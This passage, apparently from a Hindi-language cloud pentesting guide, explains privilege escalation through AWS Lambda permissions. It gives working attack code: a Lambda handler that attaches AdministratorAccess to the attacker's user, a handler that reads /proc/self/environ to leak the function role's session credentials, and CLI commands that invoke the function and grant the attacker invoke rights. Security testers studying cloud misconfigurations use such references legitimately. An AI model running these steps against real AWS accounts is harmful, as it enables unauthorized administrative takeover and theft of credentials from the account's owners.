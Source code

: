 ```bash
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
आप **लैम्ब्डा भूमिका अनुमतियों का दुरुपयोग** भी कर सकते हैं जो लैम्ब्डा फ़ंक्शन से ही हैं।\
यदि लैम्ब्डा भूमिका में पर्याप्त अनुमतियाँ थीं, तो आप इसका उपयोग करके अपने लिए प्रशासनिक अधिकार प्रदान कर सकते हैं:
```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
यह भी संभव है कि बिना किसी बाहरी कनेक्शन की आवश्यकता के lambda के भूमिका क्रेडेंशियल्स लीक किए जाएं। यह **Network isolated Lambdas** के लिए उपयोगी होगा जो आंतरिक कार्यों पर उपयोग किए जाते हैं। यदि आपके रिवर्स शेल को फ़िल्टर करने वाले अज्ञात सुरक्षा समूह हैं, तो यह कोड आपको lambda के आउटपुट के रूप में सीधे क्रेडेंशियल्स लीक करने की अनुमति देगा।
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**संभावित प्रभाव:** निर्दिष्ट मनमाने लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

{% hint style="danger" %}
ध्यान दें कि भले ही यह दिलचस्प लग सकता है **`lambda:InvokeAsync`** **अपने आप** **`aws lambda invoke-async`** को **निष्पादित** करने की अनुमति नहीं देता, आपको **`lambda:InvokeFunction`** भी चाहिए।
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

पिछले परिदृश्य की तरह, आप **`lambda:AddPermission`** अनुमति होने पर **अपने लिए `lambda:InvokeFunction`** अनुमति **प्रदान** कर सकते हैं।
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**संभावित प्रभाव:** निर्दिष्ट मनमाने लैम्ब्डा सेवा भूमिका के लिए सीधे विशेषाधिकार वृद्धि।
